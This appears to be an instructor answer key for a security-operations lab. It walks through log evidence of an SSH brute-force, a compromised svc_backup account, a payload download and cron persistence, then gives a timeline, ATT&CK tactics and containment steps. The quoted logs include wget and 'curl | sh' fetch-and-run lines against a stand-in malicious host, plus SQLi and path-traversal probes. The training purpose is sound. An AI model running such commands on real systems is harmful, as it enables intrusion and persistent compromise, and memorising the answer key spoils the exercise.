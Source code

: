 # answers.md — Lab 1 

> **Purpose:** Instructor reference answers for Lab 1. These are the key findings, timeline, and suggested escalation steps students should identify after analyzing `auth.log`, `syslog`, and `apache_access.log`.

---

## 1) Short summary (1–2 lines)

Confirmed intrusion: attacker (198.51.100.23) performed a brute-force attack against SSH, succeeded logging in as `svc_backup`, then downloaded/attempted to execute a payload and created a cron job for persistence.

---

## 2) Key indicators & evidence (log excerpts)

(Representative lines students should find — include these exact lines in the instructor key)

```
# auth.log — successful login after brute-force spike
Oct 24 20:30:30 webserver-01 sshd[5999]: Accepted password for svc_backup from 198.51.100.23 port 42318 ssh2
Oct 24 20:30:30 webserver-01 sshd[5999]: pam_unix(sshd:session): session opened for user svc_backup by (uid=0)

# auth.log — brute-force spike (example)
Oct 24 20:00:10 webserver-01 sshd[5201]: Failed password for root from 198.51.100.23 port 40001 ssh2
Oct 24 20:00:20 webserver-01 sshd[5202]: Failed password for admin from 198.51.100.23 port 40002 ssh2
# (many similar Failed password lines from 198.51.100.23)

# syslog — payload download and cron creation
Oct 24 20:35:12 webserver-01 sh[5000]: wget http://malicious.example/payload.sh -O /tmp/payload.sh
Oct 24 20:35:18 webserver-01 sh[5001]: chmod +x /tmp/payload.sh && /tmp/payload.sh
Oct 24 20:35:30 webserver-01 CRON[5010]: (svc_backup) CMD (echo "*/5 * * * * svc_backup /usr/bin/curl -s http://malicious.example/payload.sh | sh" > /var/spool/cron/crontabs/svc_backup)
Oct 24 20:45:00 webserver-01 CRON[6000]: (svc_backup) CMD (/bin/sh /tmp/payload.sh)

# apache_access.log — attacker fetched payload via HTTP
198.51.100.23 - - [24/Oct/2025:20:00:40 +0000] "GET /payload.sh HTTP/1.1" 200 532 "-" "curl/7.68.0"

# apache_access.log — probing requests (examples)
198.51.100.23 - - [24/Oct/2025:20:00:10 +0000] "GET /?id=1%20UNION%20SELECT%20NULL,NULL,NULL-- HTTP/1.1" 200 800 "-" "Mozilla/5.0"
198.51.100.23 - - [24/Oct/2025:20:00:15 +0000] "GET /../../../../etc/passwd HTTP/1.1" 404 512 "-" "Mozilla/5.0"
```

> These excerpts are the load-bearing evidence students should locate and copy into their `triage_report.txt`.

---

## 3) Timeline (recommended answers)

Students should produce a timeline similar to this (timestamps approximate, taken from logs):

1. **~Oct 24 20:00 — 20:30**: Repeated `Failed password` attempts from `198.51.100.23` (brute-force). Many usernames targeted (root, admin, test, etc.).
2. **Oct 24 20:30:30**: `Accepted password` for `svc_backup` from `198.51.100.23` → session opened.
3. **~Oct 24 20:35**: `svc_backup` (session) executes `wget http://malicious.example/payload.sh -O /tmp/payload.sh` and attempts to run it. Execution logs show errors and additional installer steps.
4. **~Oct 24 20:35 — 20:36**: A cron entry is created for `svc_backup` to run a curl-based payload fetch every 5 minutes: `*/5 * * * * svc_backup /usr/bin/curl -s http://malicious.example/payload.sh | sh`.
5. **Oct 24 20:45 and onward**: Cron runs `/tmp/payload.sh`, which produces logs indicating a background listener and network traffic (kernel/netfilter entries referencing SRC=198.51.100.23 DPT=4444).
6. **Concurrent web evidence**: Apache logs show the attacking IP probing for LFI/SQLi and successfully fetching `/payload.sh` via HTTP prior to or around the successful SSH login.

---

## 4) Classification

* **Type:** Confirmed intrusion (initial access by brute-force → credential compromise).
* **Tactics observed:** Initial access (T1110 Brute Force), Execution (T1059 via shell script), Persistence (T1053 cron), Command & Control indications (background listener entries in syslog/kernel).

---

## 5) Exact artifacts to include in `triage_report.txt` (suggested)

* The `Accepted password` line for `svc_backup`.
* A representative `Failed password` sample showing the brute-force from `198.51.100.23`.
* The `wget`/`chmod`/`/tmp/payload.sh` execution lines from `syslog`.
* The cron creation line for `svc_backup`.
* The `apache_access.log` line showing `GET /payload.sh` from `198.51.100.23`.

---

## 6) Recommended immediate actions (student should list these)

1. **Isolate the host** from the network (or block outbound connections) to prevent further C2 or lateral movement.
2. **Preserve evidence**: make copies of `/var/log/auth.log`, `/var/log/syslog`, `/var/log/apache2/*` and the `/tmp/payload.sh` file. Note exact file paths and timestamps.
3. **Disable the compromised account** `svc_backup` and any unauthorized keys, and rotate credentials for affected accounts.
4. **Remove the malicious cron entry** (document where it lived: `/var/spool/cron/crontabs/svc_backup`) and stop `/tmp/payload.sh` processes.
5. **Escalate to SOC Level 2 / Incident Response** with the `triage_report.txt`, included log excerpts, and recommended steps.
6. **Network containment**: block IP `198.51.100.23` at perimeter firewalls and IDS rules; check for further communication to malicious.example and other indicator domains/IPs.

---

## 7) Suggested follow-ups for L2/IR (not required for L1 but useful to note)

* Full forensic capture of the host (memory image, disk image).
* Identify persistence mechanisms beyond cron (startup scripts, systemd units, SSH keys).
* Search other hosts for the same suspicious cron entry or `svc_backup` logins.
* Reverse-engineer `payload.sh` if obtainable (determine capabilities: beaconing, data exfiltration, lateral movement).

---

> End of answers.md
